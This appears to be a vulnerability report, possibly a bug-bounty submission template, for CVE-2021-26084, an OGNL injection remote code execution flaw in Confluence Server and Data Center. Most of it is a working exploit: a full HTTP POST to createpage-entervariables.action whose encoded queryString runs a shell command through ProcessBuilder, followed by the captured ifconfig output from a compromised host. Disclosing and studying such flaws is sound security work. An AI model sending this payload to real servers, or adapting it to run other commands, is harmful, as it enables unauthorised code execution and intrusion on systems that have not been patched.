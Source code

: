 #RCE in $DOMAIN [CVE-2021-26084]  


In affected versions of Confluence Server and Data Center, an OGNL injection vulnerability exists that would allow an authenticated user, and in some instances an unauthenticated user, to execute arbitrary code on a Confluence Server or Data Center instance. The vulnerable endpoints can be accessed by a non-administrator user or unauthenticated user if ‘Allow people to sign up to create their account’ is enabled. To check whether this is enabled go to COG > User Management > User Signup Options. The affected versions are before version 6.13.23, from version 6.14.0 before 7.4.11, from version 7.5.0 before 7.11.6, and from version 7.12.0 

POST

```
POST /pages/createpage-entervariables.action?SpaceKey=x HTTP/1.1
Host: $DOMAIN
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Content-Length: 908
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

queryString=aaaaaaaa\u0027%2b{Class.forName(\u0027javax.script.ScriptEngineManager\u0027).newInstance().getEngineByName(\u0027JavaScript\u0027).\u0065val(\u0027var+isWin+%3d+java.lang.System.getProperty(\u0022os.name\u0022).toLowerCase().contains(\u0022win\u0022)%3b+var+cmd+%3d+new+java.lang.String(\u0022ifconfig\u0022)%3bvar+p+%3d+new+java.lang.ProcessBuilder()%3b+if(isWin){p.command(\u0022cmd.exe\u0022,+\u0022/c\u0022,+cmd)%3b+}+else{p.command(\u0022bash\u0022,+\u0022-c\u0022,+cmd)%3b+}p.redirectErrorStream(true)%3b+var+process%3d+p.start()%3b+var+inputStreamReader+%3d+new+java.io.InputStreamReader(process.getInputStream())%3b+var+bufferedReader+%3d+new+java.io.BufferedReader(inputStreamReader)%3b+var+line+%3d+\u0022\u0022%3b+var+output+%3d+\u0022\u0022%3b+while((line+%3d+bufferedReader.readLine())+!%3d+null){output+%3d+output+%2b+line+%2b+java.lang.Character.toString(10)%3b+}\u0027)}%2b\u0027


```

You will see the output of the ifconfig command

OUTPUT
```

                <input
    type="hidden"
          name="queryString"            value=
          "aaaaaaaa[eth0: flags=4163&lt;UP,BROADCAST,RUNNING,MULTICAST&gt;  mtu 9001
        inet REDACTED  netmask 255.255.255.0  broadcast REDACTED
        inet6 REDACTED  prefixlen 64  scopeid 0x20&lt;link&gt;
        ether REDACTED  txqueuelen 1000  (Ethernet)
        RX packets 482709483  bytes 496476707259 (462.3 GiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 309038833  bytes 56010315384 (52.1 GiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73&lt;UP,LOOPBACK,RUNNING&gt;  mtu 65536
        inet REDACTED  netmask 255.0.0.0
        inet6 REDACTED  prefixlen 128  scopeid 0x10&lt;host&gt;
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 755630  bytes 135512823 (129.2 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 755630  bytes 135512823 (129.2 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```



## Impact

-   An unauthenticated, 3rd-party attacker or adversary can execute remote code
